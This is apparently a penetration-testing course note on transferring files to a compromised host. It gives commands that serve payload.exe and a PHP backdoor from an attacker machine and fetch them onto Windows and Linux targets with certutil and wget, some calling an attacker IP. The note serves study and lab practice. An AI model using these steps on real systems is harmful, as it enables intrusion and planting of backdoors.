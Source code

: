 ### Transferring Files

#### Windows

- Set up a web server to host the `payload.exe` file 

```bash
# Attacker machine
cd /root/Desktop/ # payload.exe must be here
python3 -m http.server 80
```

- After gaining access to the Windows target system and spawned a command shell session, download the payload file on the target system using the `certutil` tool in `cmd`.

```bash
# Windows Target machine
cd C:\Temp
certutil -urlcache -f http://<ATTACKER-IP>/payload.exe payload.exe
```

#### Linux

- After exploiting the Linux target, transfer the `php-backdoor.php` file to the target.
- 2 terminal sessions are necessary - use `tmux` utility to get more sessions.

[**`tmux`**](https://github.com/tmux/tmux/wiki) - *is a program, **terminal multiplexer**, which runs in a terminal and allows multiple other terminal programs to be run inside it*

```bash
sudo apt install tmux -y
```

```bash
# Attacker machine
tmux
# ... Exploitation with MSFconsole in Terminal 0 ...
# CTRL+B and then C to open a new terminal session

cd /usr/share/webshells/php/
ip -br -c a
	192.219.50.2
python3 -m http.server 80
```

```bash
# CTRL+B then 0 (zero) to navigate to the first Terminal session
# Target machine
/bin/bash -i
wget http://192.219.50.2/php-backdoor.php
```

![wget http://<ATTACKER_IP>/php-backdoor.php](.gitbook/assets/image-20230428232055646.png)
